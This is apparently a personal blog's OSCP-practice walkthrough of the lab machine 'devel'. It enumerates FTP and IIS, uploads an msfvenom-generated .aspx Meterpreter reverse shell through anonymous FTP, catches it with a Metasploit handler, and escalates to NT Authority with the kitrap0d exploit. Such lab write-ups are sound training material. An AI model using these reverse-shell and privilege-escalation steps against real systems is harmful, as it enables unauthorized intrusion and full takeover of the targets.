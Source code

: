 ```yaml
---
layout: post
title: "devel"
date: 2025-09-10 
categories: OSCP Playlist
---
```

# devel

# Summary

- Anonymous login allowed on Microsoft ftpd server
- ftp server allow uploading files
- msfvenom to generate .aspx staged meterpreter reverse shell
- metasploit listener, used post/multi/local_exploit_suggester
- raised privilege to nt authority

# Attack Path

First enumerate the open ports and services:

```bash
sudo nmap -sC -sV -oN nmap/devel 10.10.10.5

PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
|_03-17-17  05:37PM               184946 welcome.png
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp open  http    Microsoft IIS httpd 7.5
|_http-server-header: Microsoft-IIS/7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: IIS7
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

We see from the scan anon login is allowed for ftp. Let’s login and see what files there are:

```bash
ftp 10.10.10.5

get iisstart.htm
get welcome.png

```

Let’s view what the image is:

![image.png]({{ site.baseurl }}/assets/devel/image.png)

Let’s look at its exif data:

```bash
exiftool 

ExifTool Version Number         : 13.25
File Name                       : welcome.png
Directory                       : .
File Size                       : 185 kB
File Modification Date/Time     : 2017:03:17 14:37:30+00:00
File Access Date/Time           : 2025:09:10 21:27:33+01:00
File Inode Change Date/Time     : 2025:09:10 21:27:33+01:00
File Permissions                : -rw-rw-r--
File Type                       : PNG
File Type Extension             : png
MIME Type                       : image/png
Image Width                     : 571
Image Height                    : 411
Bit Depth                       : 8
Color Type                      : RGB
Compression                     : Deflate/Inflate
Filter                          : Adaptive
Interlace                       : Noninterlaced
Image Size                      : 571x411
Megapixels                      : 0.235

```

Not much. Let’s use strings:

```bash
strings -n 8 welcome.png

#Nothing interesting
```

The other file downloaded also amounted to nothing.

Let’s visit the web page:

![image.png]({{ site.baseurl }}/assets/devel/image%201.png)

The same image we downloaded from ftp.

Let’s fuzz:

```bash
feroxbuster -u http://10.10.10.5/ -C 404

200      GET      826l     4457w   331772c http://10.10.10.5/welcome.png
200      GET       32l       53w      689c http://10.10.10.5/
301      GET        2l       10w      155c http://10.10.10.5/Aspnet_client => http://10.10.10.5/Aspnet_client/
301      GET        2l       10w      155c http://10.10.10.5/aspnet_Client => http://10.10.10.5/aspnet_Client/

```

Let’s use ffuf:

```bash
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt:FUZZ -u http://10.10.10.5/FUZZ -ic

aspnet_client           [Status: 301, Size: 155, Words: 9, Lines: 2, Duration: 38ms]
Aspnet_client           [Status: 301, Size: 155, Words: 9, Lines: 2, Duration: 24ms]
aspnet_Client           [Status: 301, Size: 155, Words: 9, Lines: 2, Duration: 18ms]
ASPNET_CLIENT           [Status: 301, Size: 155, Words: 9, Lines: 2, Duration: 22ms]
```

Nothing. Let’s do another port scan:

```bash
rustscan -a 10.10.10.5 --ulimit 5000
```

These are the only ports. 

Let’s go back to ftp and see if we are allowed to upload files:

```bash
ftp 10.10.10.5

put test.txt

local: test.txt remote: test.txt
229 Entering Extended Passive Mode (|||49168|)
125 Data connection already open; Transfer starting.
100% |****************************************************************************************************|     8      156.25 KiB/s    --:-- ETA
226 Transfer complete.
8 bytes sent in 00:00 (0.13 KiB/s)

125 Data connection already open; Transfer starting.
03-18-17  02:06AM       <DIR>          aspnet_client
03-17-17  05:37PM                  689 iisstart.htm
09-11-25  12:03AM                    8 test.txt
03-17-17  05:37PM               184946 welcome.png

```

Let’s see if we can view it on web:

```bash
http://10.10.10.5/test.txt
```

![image.png]({{ site.baseurl }}/assets/devel/image%202.png)

Normally IIS will execute a .aspx file.  Let’s get a reverse shell on the machine. First let’s use msfvenom to generate our payload:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=tun0 LPORT=4444 -f aspx -o rev.aspx

```

Now let’s upload it:

```bash
put rev.aspx

125 Data connection already open; Transfer starting.
100% |****************************************************************************************************|  1016 KiB    1.09 MiB/s    --:-- ETA
226 Transfer complete.
```

Now let’s start a listener on metasploit

```bash
msfconsole
use exploit/multi/handler
set lhost tun0
set payload windows/meterpreter/reverse_tcp
run
```

Now run visit our reverse shell:

```bash
http://10.10.10.5/rev.aspx
```

![image.png]({{ site.baseurl }}/assets/devel/image%203.png)

Let’s use msfconsole’s multi/recon/local_exploit_suggester to escalate our privilege:

```bash
msfconsole
use multi/recon/local_exploit_suggester
set SESSION 1
run
```

![image.png]({{ site.baseurl }}/assets/devel/image%204.png)

Let’s just start from the first exploit and work down the list if it does not work

```bash
use exploit/windows/local/bypassuac_comhijack #did not work
use exploit/windows/local/bypassuac_eventvwr  #did not work
exploit/windows/local/ms10_015_kitrap0d
set SESSION 1
set LHOST tun0
set LPORT 9001
run
```

![image.png]({{ site.baseurl }}/assets/devel/image%205.png)

We are now NT Authority.